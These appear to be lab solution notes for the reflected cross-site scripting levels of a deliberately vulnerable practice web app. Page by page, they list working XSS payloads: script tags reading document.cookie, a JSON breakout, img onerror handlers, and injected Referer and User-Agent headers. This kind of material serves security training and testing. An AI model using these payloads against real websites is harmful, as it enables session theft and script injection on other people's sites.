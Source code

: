 ### // A3 - CROSS	SITE	SCRIPTING	(XSS) //
---
##### Cross-Site Scripting - Reflected (GET)
xss_get.php <br>
~~~
<script>alert(document.cookie)</script>
~~~
---
##### Cross-Site Scripting - Reflected (POST)
xss_post.php
~~~
<script>alert(document.cookie)</script>
~~~
---
##### Cross-Site Scripting - Reflected (JSON)
xss_json.php
~~~
"}]}';prompt(0)</script>
~~~
---
##### Cross-Site Scripting - Reflected (AJAX/JSON)
xss_ajax_2-1.php
~~~
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
~~~
---
##### Cross-Site Scripting - Reflected (AJAX/XML)
xss_ajax_1-1.php
~~~
&lt;img src=&apos;#&apos; onerror=&apos;alert(1)&apos;&gt;
~~~
---
##### Cross-Site Scripting - Reflected (Back Button)
Referer header feld:
~~~
Referer: ';alert(1);'
~~~
---
##### Cross-Site Scripting - Reflected (Custom Header)
Im header folgendes beifügen:
~~~
<script>alert(1)</script>
~~~
---
##### Cross-Site Scripting - Reflected (Eval)
~~~
date=alert(1)
~~~
---
##### Cross-Site Scripting - Reflected (HREF)
~~~
Referer: <script>alert(1)</script>
~~~
---
##### Cross-Site Scripting - Reflected (User-Agent)
~~~
User-Agent: <script>alert(1)</script>
~~~

